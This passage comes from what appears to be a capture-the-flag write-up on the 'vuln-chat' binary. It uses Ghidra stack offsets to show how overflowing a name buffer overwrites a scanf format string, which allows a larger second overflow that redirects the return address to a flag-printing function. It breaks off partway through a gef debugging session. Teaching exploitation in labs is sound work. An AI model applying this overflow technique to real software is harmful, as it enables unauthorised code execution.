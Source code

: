 So both times by default it will let us scan in 30 characters, which will let us scan in 30 bytes worth of data. Next we take a look at the stack layout in Ghidra:

```
                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined main()
             undefined         AL:1           <RETURN>
             undefined1        Stack[-0x5]:1  local_5                                 XREF[1]:     080485c5(W)  
             undefined4        Stack[-0x9]:4  fmt                                     XREF[3]:     080485be(W),
                                                                                                   080485cd(*),
                                                                                                   08048630(*)  
             undefined[20]     Stack[-0x1d]   name                                    XREF[3]:     080485c9(*),
                                                                                                   080485d9(*),
                                                                                                   0804861b(*)  
             undefined[20]     Stack[-0x31]   password                                XREF[1]:     0804862c(*)  
                             main                                            XREF[4]:     Entry Point(*),
                                                                                          _start:08048487(*), 08048830,
                                                                                          080488ac(*)  
        0804858a 55              PUSH       EBP
```

So we can see that password is stored at offset` -0x31`, name is stored at offset `-0x1d`, and `fmt` is stored at `-0x9`. The password char array can hold `0x31 - 0x1d = 0x14` bytes. The name char array can hold `0x1d - 0x9 = 0x14` bytes worth of data too. Since we can scan in 30 bytes worth of data, this gives us a 10 byte overflow in both cases. With our given setup we won't be able to get code execution with either overflow alone. However with the first overflow (the one to name) we will be able to overwrite the value of `fmt`. This will allow us to specify how much data the second scanf call will scan. With that we will be able to scan in more than enough data to overwrite the saved return address, and get code execution when the ret instruction executes.

For what function to call, the `printFlag` function at `0x804856b` seems to be a good candidate. It just prints the context of the flag using cat (also to get the flag, we need to have a copy of `flag.txt` in the same directory as the binary):
```
void printFlag(void)

{
  system("/bin/cat ./flag.txt");
  puts("Use it wisely");
  return;
}
```
So let's take a look at how the memory is corrupted during the exploit. First I set a breakpoint for right after the second scanf call:
```bash
gef➤  b *0x8048639
Breakpoint 1 at 0x8048639
gef➤  r
Starting program: /Hackery/pod/modules/bof_callfunction/tu17_vulnchat/vuln-chat
----------- Welcome to vuln-chat -------------
Enter your username: 15935728
Welcome 15935728!
Connecting to 'djinn'
```